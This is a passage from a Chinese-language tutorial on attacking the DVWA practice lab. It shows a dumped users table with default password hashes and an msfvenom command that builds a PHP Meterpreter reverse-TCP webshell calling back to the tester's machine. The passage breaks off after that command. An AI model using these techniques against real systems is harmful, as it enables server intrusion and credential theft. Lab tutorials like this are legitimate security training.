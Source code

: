 出来了。

如果你终端里获取到了以下信息，那么说明，第二关通过了

```txt
Database: dvwa
Table: users
[5 entries]
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+------------+
| user_id | user    | avatar                                                | password                                    | last_name | first_name |
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+------------+
| 1       | admin   | http://172.16.123.129/dvwa/hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      |
| 2       | gordonb | http://172.16.123.129/dvwa/hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     |
| 3       | 1337    | http://172.16.123.129/dvwa/hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       |
| 4       | pablo   | http://172.16.123.129/dvwa/hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      |
| 5       | smithy  | http://172.16.123.129/dvwa/hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        |
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+------------+
```

### 第三关|操作系统渗透

Well,

接下来我们就要进行最关键的一环了，我们将使用Webshell的方式入侵靶机的操作系统。

知道PHP吗？我对它了解也不是很多，总之它可以被上传到服务器然后以可执行文件的方式运行。

这次也将使用PHP文件作为**木马**进行攻击。

#### 生成木马

我们用 **`msfvenom`** 这个命令来生成。执行

```bash
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.0.106 LPORT=4444 -o test.php
```

![](/img/截图_2019-11-03_13-35-25.png)
